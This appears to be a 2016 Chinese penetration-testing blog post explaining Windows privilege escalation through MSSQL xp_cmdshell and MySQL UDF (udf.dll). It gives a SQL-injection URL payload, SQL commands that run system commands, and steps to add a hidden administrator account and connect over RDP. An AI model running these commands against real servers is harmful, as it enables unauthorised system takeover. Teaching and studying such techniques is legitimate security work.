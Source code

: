 ```yaml
---
draft: false
date: 2016-08-07 23:38:58
title: Windows 下第三方服务提权
description: 
categories:
  - Pentest
tags:
  - intranet
---
```


### 0x00  MSSQL提权
MSSQL运行在system权限时才可以通过xp_cmdshell组件执行系统命令提权  
提权条件：数据库账号是DBA权限

*  关于xp_cmdshell
    * 得到数据库连接信息，连接数据库后执行```EXEC xp_cmdshell 'net user';```
    * 有sql注入时也可以直接在url上使用xp_cmdshell，因为mssql可以多语句执行，例如```?id=1;EXEC xp_cmdshell 'net user';--```

* 连接数据库
![Windows下第三方服务提权-找数据库连接信息](/img/post/privilge_escalation_win_find_sql_conn_msg.png)
![Windows下第三方服务提权-连接mssql数据库](/img/post/privilge_escalation_win_conn_mssql.png)

* 执行系统命令
![Windows下第三方服务提权-尝试用xp_cmdshell执行命令](/img/post/privilge_escalation_win_try_exec_sys_command.png)
![Windows下第三方服务提权-开启xp_cmdshell组件](/img/post/privilge_escalation_win_open_cmd_shell.png)
![Windows下第三方服务提权-使用xp_cmdshell成功执行命令](/img/post/privilge_escalation_win_exec_sys_command_success.png)

* 添加用户
![Windows下第三方服务提权-添加用户](/img/post/privilge_escalation_win_add_user.png)
![Windows下第三方服务提权-查看添加的用户](/img/post/privilge_escalation_win_view_user.png)

* 远程连接
![Windows下第三方服务提权-远程连接](/img/post/privilge_escalation_win_remote_conn.png)
![Windows下第三方服务提权-输入用户名和密码](/img/post/privilge_escalation_win_input_u_p.png)
![Windows下第三方服务提权-输入用户名和密码](/img/post/privilge_escalation_win_remote_connection_view_ip.png)

### 0x01 MySQL提权
环境：web应用服务器权限较低  
提权条件：MySQL是system权限

* 关于UDF

MySQL提权可以用UDF和Mof。UDF就是User defined Function，即用户定义函数，可以通过创建存储方法来定义函数，从而调用系统命令。

* UDF提权过程
    * 导入udf.dll到服务器指定目录  
        * MySQL版本小于5.1的udf.dll要导入到c:\windows\目录下  
        * MySQL版本大于等于5.1的udf.dll要导入到plugin_dir目录，plugin_dir在MySQL安装目录下的lib/plugin目录下(MySQL安装目录可以用select @@basedir得到)，默认不存在这个目录，我们要自己创建
    * 使用SQL语句创建功能函数  
        CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll';
    * 执行MySQL语句调用新创建的函数  
        select shell('cmd','whoami');
    * 删除创建的函数  
        drop function shell;

* 查看基本信息
![Windows下第三方服务提权-查看基本信息](/img/post/privilge_escalation_win_view_base_msg.png)
![Windows下第三方服务提权-查看当前用户](/img/post/privilge_escalation_win_view_current_user.png)
![Windows下第三方服务提权-查看当前用户权限](/img/post/privilge_escalation_win_view_current_user_permissions.png)

* 上传udf提权
![Windows下第三方服务提权-上传udf](/img/post/privilge_escalation_win_upload_udf.png)
![Windows下第三方服务提权-连接数据库](/img/post/privilge_escalation_win_conn_mysql.png)
![Windows下第三方服务提权-导出udf.dll并生成函数](/img/post/privilge_escalation_win_export_udf.png)
![Windows下第三方服务提权-提权成功执行whoami](/img/post/privilge_escalation_win_exec_whoami.png)

* 添加用户
![Windows下第三方服务提权-通过shell函数添加用户](/img/post/privilge_escalation_win_shell_add_user.png)
![Windows下第三方服务提权-通过shell函数添加用户到管理员组](/img/post/privilge_escalation_win_shell_add_user_to_administrators.png)
![Windows下第三方服务提权-通过shell函数激活用户](/img/post/privilge_escalation_win_shell_active_user.png)
![Windows下第三方服务提权-通过shell函数查看用户](/img/post/privilge_escalation_win_shell_view_user.png)

* 远程连接
![Windows下第三方服务提权-远程3389连接](/img/post/privilge_escalation_win_shell_remote_connection.png)
